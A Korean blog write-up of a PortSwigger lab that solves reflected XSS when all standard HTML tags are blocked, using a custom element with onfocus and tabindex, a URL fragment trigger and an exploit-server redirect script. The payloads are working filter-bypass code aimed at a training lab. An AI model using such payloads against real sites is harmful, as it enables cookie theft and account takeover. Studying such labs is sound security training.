




+++
date = '2026-06-04T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS into HTML context with all tags blocked except custom ones'
summary = "표준 HTML 태그가 모두 차단된 환경에서 포커스 가능한 커스텀 요소와 URL fragment를 이용하는 Reflected XSS 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "WAF Bypass", "Custom Element", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-into-html-context-with-all-tags-blocked-except-custom-ones/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

> 

검색 기능은 모든 표준 HTML 태그를 차단하지만 이름이 정의되지 않은 커스텀 태그는 허용한다. 커스텀 요소에 포커스를 발생시켜 `document.cookie`를 자동으로 출력하면 문제가 해결된다.

### XSS 진단

커스텀 요소는 브라우저가 알지 못하는 이름을 사용하더라도 DOM 요소로 생성된다. 다만 기본적으로 포커스를 받을 수 없으므로 `tabindex`를 추가하고, 포커스 시 실행되는 `onfocus` 이벤트를 지정한다.

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>
```

각 구성의 역할은 다음과 같다.

- `<xss>`: 표준 태그 필터에 포함되지 않는 커스텀 요소
- `tabindex=1`: 요소를 키보드 포커스 대상으로 변경
- `id=x`: URL fragment로 요소를 지정하기 위한 식별자
- `onfocus`: 요소가 포커스를 받는 순간 JavaScript 실행



---

## 익스플로잇

피해자가 링크를 열자마자 해당 요소에 포커스가 가도록 URL 끝에 `#x`를 추가한다. Exploit Server에는 다음과 같이 이동 스크립트를 작성한다.

```html
<script>
location = 'https://<lab-id>.web-security-academy.net/?search=%3Cxss%20id%3Dx%20onfocus%3Dalert%28document.cookie%29%20tabindex%3D1%3E#x';
</script>
```

fragment의 `x`가 같은 ID를 가진 커스텀 요소를 포커스 대상으로 만들고 `onfocus`를 자동 실행한다.



익스플로잇을 전달하면 쿠키가 `alert()`로 출력되며 문제가 해결된다.



---

## 정리

태그 이름을 차단하는 블랙리스트는 브라우저가 생성할 수 있는 모든 요소 이름을 포괄하기 어렵다. 커스텀 요소도 전역 이벤트 속성과 `tabindex`를 가질 수 있으므로 실행 벡터가 된다. 이 랩에서는 URL fragment가 사용자 상호작용 없이 포커스 이벤트를 발생시키는 트리거 역할을 한다.
